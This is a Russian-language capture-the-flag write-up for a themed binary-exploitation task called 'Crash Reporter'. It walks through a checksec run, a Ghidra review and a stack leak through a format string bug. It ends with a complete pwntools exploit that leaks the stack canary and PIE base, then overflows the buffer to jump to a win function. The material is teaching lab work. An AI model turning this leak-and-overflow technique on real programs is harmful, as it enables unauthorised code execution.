


# Провалившиеся заклинания

После окончания Второй Магической Войны Министерство Магии стало активно внедрять маггловские технологии. Один из таких экспериментов — Crash Reporter, система для автоматического сбора отчётов о сбоях в работе заклинаний.

Каждый раз, когда заклинание идёт не по плану, Crash Reporter записывает имя волшебника, сотворившего заклинание и информацию о сбое в нём. Однако оказалось, что даже сам Crash Reporter подвержен сбоям - исследуйте его и докажите возможность сбоя Министерству Магии.

- Рекомендуемые утилиты: Ghidra, GDB, Python (pwntools).
- Цель работы: исследование бинарного файла и восстановление логики его работы.
- Итог работы: получение доступа к флагу.
- Критерий оценки: предоставление правильного флага.

## Решение

Посмотрим на бинарный файл с помощью `pwn checksec`:

```sh
justmarfix@justpc: ~/infosec/pwn11
$ pwn checksec crash
[*] '/home/justmarfix/infosec/pwn11/crash'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

В бинаре включён PIE и есть канарейки. Подумаем, что с этим можно сделать.

Откроем исполняемый файл в Ghidra. Посмотрим на декомпиляцию:



В функции main нет почти ничего интересного - из неё лишь вызываются функции `banner`, которая только печатает баннер приветствия при запуске файла, а также интересная для нас функция `handle_report`. Посмотрим на неё.



Посмотрим, что происходит в этой функции. В ней присутствует буфер `local_58` (`rbp - 0x50`). В него читается `0x40` байт, после чего содержимое буфера подаётся первым аргументом в вызов функции `printf`. Это - классическая [уязвимость форматной строки](https://ir0nstone.gitbook.io/notes/binexp/stack/format-string). После этого, если ввести `y`, в буфер будет прочитано 200 байт (что гораздо больше размера буфера).

Используя эту уязвимость и формат `%p`, прочитаем стек процесса.

```sh
justmarfix@justpc: ~/infosec/pwn11
$ public/crash
=== Crash Reporter v1.3 ===
Describe what you were doing before the crash.

[+] Enter crash description (preview):
> %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

--- Preview ---
0x7f3cde009643 0x7f3cde00a790 0x7f3cde00a790 (nil) (nil) 0x7ffcadf962c0 0x7f3cdde82e3a 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x56314bfac20a (nil) 0x6b99bb696f98c600 0x7ffcadf96300 0x56314bfac415
--- End Preview ---

Submit report?
[y] Submit
[n] Cancel
>
```

Заметим, что число на позиции 17 содержит 8 значащих байт и кончается на нулевой байт - словом, выглядит как канарейка. В таком случае, следующие 8 байт после канарейки - сохранённый rbp, а следующие 8 байт - адрес возврата.

Поскольку используется PIE, адрес возврата будет рандомизированным. Тем не менее, мы знаем, куда он указывает - на следующую инструкцию в `main` после вызова `handle_report`. Вычтем оффсет этой инструкции из адреса возврата и получим PIE base.

Теперь, зная канарейку и PIE base, получим желаемый адрес возврата. Найдём в Ghidra функцию `win`, читающую флаг, и прыгнем на её адрес - `PIE base + win offset`.

Победа!

Код эксплоита:

```py
from pwn import *

context.binary = elf = ELF("./crash")
p = process()
p.sendlineafter(b"> ", b"%19$p %17$p")
data = p.recvuntil(b"--- End Preview ---")

leaks = [int(x, 16) for x in data.split() if x.startswith(b"0x")]
pie_leak = leaks[0]
canary = leaks[1]
log.success(f"PIE leak: {hex(pie_leak)}")
log.success(f"Canary:   {hex(canary)}")

pie_base = pie_leak - 0x1415
elf.address = pie_base
log.success(f"PIE base: {hex(pie_base)}")

p.sendafter(b"> ", b"y\n")
payload = b"A" * 72
payload += p64(canary)
payload += b"C" * 8
payload += p64(elf.symbols["win"])

p.sendlineafter(b"> ", payload)
p.interactive()
```
